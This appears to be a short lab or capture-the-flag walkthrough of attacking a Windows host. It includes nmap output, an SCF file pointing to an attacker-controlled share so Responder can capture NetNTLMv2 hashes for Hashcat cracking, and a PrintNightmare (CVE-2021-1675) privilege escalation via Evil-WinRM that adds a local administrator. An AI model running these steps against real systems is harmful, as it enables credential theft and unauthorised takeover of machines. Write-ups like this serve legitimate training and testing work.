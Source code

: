#### Nmap scan results 
```
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds                                       
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) (win-rm)
```

* Save the below code as .scf and find a way to upload it.
```
[Shell]
Command=2
IconFile=\\your_ip\share\pentestlab.ico
[Taskbar]
Command=ToggleDeskto
```
* Run Responder
```
responder -wrf --lm -v -I tun0
```
* Identify the hash with hashid
 should be NetNTLMv2 hash
 
* pass the hash and crack with Hashcat mode -m 5600
-------------------------------------------------------------

### CVE-2021-1675 (priv esc)
> github:https://github.com/calebstewart/CVE-2021-1675 

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user john as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```

* new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
